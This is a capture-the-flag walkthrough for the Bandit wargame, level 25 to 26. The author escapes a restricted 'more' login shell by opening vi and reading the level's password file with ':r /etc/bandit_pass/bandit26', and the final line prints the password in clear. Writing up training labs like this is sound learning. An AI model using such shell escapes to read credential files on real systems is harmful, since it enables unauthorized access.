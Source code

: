 
## Bandit Level 25 -> Level 26

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd

## Solution

I ssh to logged in bandit26,then see something strange,and logged out automamaticly.
After having a look at the shell for bandit26, I know command `more` is used.
So there is a trick to get the password by using vi.(refering Nikkko)

```
bandit25@melinda:~$ ls
bandit26.sshkey                                                                                   
bandit25@melinda:~$ ssh -i bandit26.sshkey bandit26@localhost                                     
Could not create directory '/home/bandit25/.ssh'.                                                 
The authenticity of host 'localhost (127.0.0.1)' can't be established.                            
ECDSA key fingerprint is 05:3a:1c:25:35:0a:ed:2f:cd:87:1c:f6:fe:69:e4:f6.                         
Are you sure you want to continue connecting (yes/no)? yes                                        
(...)
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.

bandit25@melinda:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@melinda:~$ cat /usr/bin/showtext 
#!/bin/sh
more ~/text.txt
exit 0

bandit25@melinda:~$ ssh -i bandit26.sshkey bandit26@localhost
Step1   before exec the command above the size of terminal should be small enough(util you can see 5 line)
Step2   ssh to localhost
Step3   type 'v' to enter vi
Step4   type ':r /etc/bandit_pass/bandit26' to show the password on screen
Step5   That's all
```

the password is 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z